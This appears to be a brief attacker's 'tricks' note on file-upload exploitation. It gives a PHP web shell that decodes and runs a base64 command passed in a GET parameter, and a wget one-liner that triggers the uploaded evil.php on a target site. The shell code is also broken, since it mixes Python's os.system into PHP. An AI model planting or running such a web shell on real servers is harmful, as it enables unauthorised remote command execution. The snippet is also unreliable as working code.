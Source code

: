 # Tricks

## File upload

Create php file,

```php
<?php
$cmd=$_GET["cmd"];
$decode=base64_decode($cmd);
os.system($decode);
?>
```

Then execute command on the web server,
```bash
wget -O output -o /dev/null www.target.com/photos/evil.php?cmd=$(echo id|base64)
```

